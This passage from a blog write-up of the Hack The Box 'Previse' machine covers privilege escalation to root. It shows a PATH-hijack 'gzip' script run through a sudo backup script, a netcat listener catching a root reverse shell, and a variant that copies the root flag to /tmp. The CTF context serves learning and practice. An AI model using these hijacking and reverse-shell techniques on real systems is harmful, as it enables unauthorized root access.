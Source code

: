 {{< highlight bash >}}
chmod +x gzip
sudo /opt/scripts/access_backup.sh
{{< /highlight >}}

Catching the reverse shell with our listener we get a root shell!

{{< highlight bash >}}
nc -lvnp 9001
listening on [any] 9001 ...
connect to [0.0.0.0] from (UNKNOWN) [10.10.11.104] 41578
sh: 0: can't access tty; job control turned off
$ whoami
root
{{< /highlight >}}

With this we now own the system!

# root.txt

Following the privilege escalation technique, we can simply cat the root.txt flag, however, an alternative `CTF` style method to obtain the flag is to echo it into a file without the need of spawning a new shell. There are multiple ways to do this, however I found using the 'cp' command ineffective as the files permissions were still owned by root.

We will use the same script as last time however instead of a reverse shell we will echo the root flag to a file in our current directory.

{{< highlight bash >}}
File: gzip
#!/bin/bash
echo "$(</root/root.txt.txt)" > /tmp/newpath/flag.txt
{{< /highlight >}}

Running the script:

{{< highlight bash >}}
chmod +x gzip
sudo /opt/scripts/access_backup.sh
{{< /highlight >}}

The script succesfully executes and we recieve the root flag in the /tmp/newpath/ directory as flag.txt!
We can cat the contents of the file as the m4lwhere user.

{{< highlight bash >}}
cat flag.txt
[redacted]
{{< /highlight >}}

# Conclusion
  
  
Box by m4lwhere | <a href="https://app.hackthebox.com/users/107145">Give Respect</a>  
fun box.
![pwned](/htbprevise/pwned.png)

---------------- 

--> Share via <a href="https://torry.link/index/htb-previse">link</a>  
--> Return to the <a href="https://torrytw.ooo/index/">Index</a>
